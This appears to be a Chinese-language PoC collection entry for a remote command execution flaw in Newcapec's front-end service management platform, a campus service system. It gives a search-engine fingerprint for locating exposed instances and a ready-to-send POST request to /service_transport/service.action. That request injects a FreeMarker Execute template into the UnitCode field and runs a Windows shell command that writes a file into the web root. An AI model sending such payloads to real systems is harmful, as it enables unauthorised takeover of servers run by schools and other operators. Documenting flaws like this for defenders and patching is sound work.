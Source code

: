 # 

# 新开普 前置服务管理平台 service.action 远程命令执行漏洞

## 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

新开普 前置服务管理平台

## 网络测绘

```
title="掌上校园服务管理平台"
```

## 漏洞复现

登陆页面

![image-20230828112934396](images/image-20230828112934396.png)

验证POC

```
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```

![image-20230828112953699](images/image-20230828112953699.png)

![image-20230828113009271](images/image-20230828113009271.png)
